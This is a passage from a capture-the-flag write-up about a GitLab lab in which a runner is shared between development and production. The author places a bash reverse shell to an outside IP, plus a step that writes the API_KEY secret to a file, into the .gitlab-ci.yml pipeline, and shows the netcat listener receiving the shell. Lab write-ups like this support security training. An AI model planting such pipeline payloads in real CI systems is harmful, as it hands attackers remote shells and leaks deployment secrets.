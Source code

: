 ### One Build Agent to Rule Them All -

In our next example, **Ash has learnt from his mistakes and made sure only to provide Ana with access to the development (DEV) branch. Main is now fully restricted.** We still have access to the DEV branch since Ash wants his developers to adopt an Agile development process. Luckily for us, **the DEV branch does have a Gitlab runner attached to it**.

Navigate to the new repo at http://gitlab.tryhackme.loc/ash/environments/ to get started. Navigate to the Operate->Environment section to view the two environments:

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/bf394c8c-926a-4ab1-b62a-ee547a517625)

Let's take a closer look at the last build that was performed for production. Click on the build and select the Pipeline tab to see the build that was executed for production:

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/a1c83e51-ea37-4d43-abce-6ec84559a9c7)

Here the runner that was used for the build is `runner-agent vVz6bNA8`.

We can try to make some changes in the _README.md_ file & see which runner is responsible for executing the job.

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/0107b5ce-2080-4e1a-992b-96b2164ac8a5)

Checking which runner executes the job:

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/c167bc94-d44e-4ebf-8810-f9ff1a4173f3)

So here the runner named `_KwqiWhz` is responsible for executing the job.

**Since both the PROD & DEV env is using the same runner, if we manage to make the runner execute our reverse shell payload then we can get access to prod server. From there we can pivot into the DEV server too !**

1. Edit the _.gitlab-ci.yml_ file with our reverse shell payload & Commit the changes.
```bash
stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "Testing Application: ${CI_PROJECT_NAME}"'

production:
  stage: deploy
  when: manual
  script:
    - /bin/bash -i >& /dev/tcp/10.50.75.24/9001 0>&1
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}
```
2. Create a Merge request
3. Deploy the build to production server
![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/40164099-8e55-4f56-8696-e4df1e6968d4)
4. Voila ! We got a shell back on our machine.
```bash
┌──(root㉿kali)-[/home/kali/thm/CI_CD and Build Security]
└─# nc -lvnp 9001                     
listening on [any] 9001 ...
connect to [10.50.75.24] from (UNKNOWN) [10.200.94.202] 50666
bash: cannot set terminal process group (1603): Inappropriate ioctl for device
bash: no job control in this shell
```

[kali]: runner-kali